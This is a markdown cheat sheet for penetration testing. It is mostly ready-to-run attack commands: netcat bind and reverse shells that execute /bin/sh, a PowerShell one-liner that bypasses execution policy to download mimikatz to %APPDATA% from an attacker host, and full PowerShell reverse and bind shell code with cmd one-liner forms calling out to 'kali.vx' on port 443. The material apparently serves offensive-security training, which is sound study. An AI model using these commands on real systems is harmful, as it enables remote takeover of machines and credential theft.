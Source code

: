 # Commands for establishing connections and transfering files
https://manpages.debian.org/bullseye/netcat-traditional/nc.1.en.html

## Connecting using netcat
### Listening:
```console
nc -nlvp $PORT
```

### Connecting:
```console
nc -nv $ADDRESS $PORT
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## File transfer
### Receiving file:
```console
nc -nlvp $PORT > $FILENAME_RCPT
```

### Sending file:
```console
nc -np $PORT < $FILENAME_SEND
```

## Bind shell
### Listening:
```console
FILENAME=/bin/sh
nc -nlvp $PORT -e $FILENAME
```
`-e` : specify filename to exec after connect (use with caution). See the -c option for enhanced functionality.

### Connecting:
```console
nc -nv $ADDRESS $PORT
```

## Reverse bind shell
### Listening:
```console
nc -nlvp $PORT
```
### Connecting:
```console
FILENAME=/bin/sh
nc -nv $ADDRESS $PORT -e $FILENAME
```

## Downloading files from windows
### Setup http web server:
```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
sudo python3 -m http.server 80 &> /dev/null &
```

### Downloading:
```console
set SRC_URL=http://kali.vx/mimikatz.exe
set DST_PATH=%APPDATA%\mimikatz.exe
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile($env:SRC_URL,$env:DST_PATH)
```

## Windows reverse bind shell
### Setup listening in kali:
```console
nc -lnvp $PORT
```
### Powershell code:
```console
$ADDRESS='kali.vx'
$PORT=443
$CLIENT = New-Object System.Net.Sockets.TCPClient($ADDRESS,$PORT)
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
```
### Running powershell from cmd:
```console
set ADDRESS=kali.vx
set PORT=443
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "$CLIENT = New-Object System.Net.Sockets.TCPClient($env:ADDRESS,$env:PORT);$STREAM = $CLIENT.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0){$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$SENDBACK = (iex $DATA 2>&1 | Out-String );$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> ';$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2);$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length);$STREAM.Flush()};$CLIENT.Close();"
```

## Windows bind shell
### Powershell code:
```console
$PORT=443
$LISTENER = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$PORT)
$LISTENER.start()
$CLIENT = $LISTENER.AcceptTcpClient()
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $SENDBACK + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
$LISTENER.Stop()
```

### Running powershell from cmd:
```console
set PORT=443
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "$LISTENER = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$env:PORT);$LISTENER.start();$CLIENT = $LISTENER.AcceptTcpClient();$STREAM = $CLIENT.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0){$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$SENDBACK = (iex $DATA 2>&1 | Out-String );$SENDBACK2 = $SENDBACK + 'PS ' + (pwd).Path + '> ';$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2);$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length);$STREAM.Flush()};$CLIENT.Close();$LISTENER.Stop();"
```

### Connecting from kali:
```console
nc -nv $ADDRESS $PORT
```
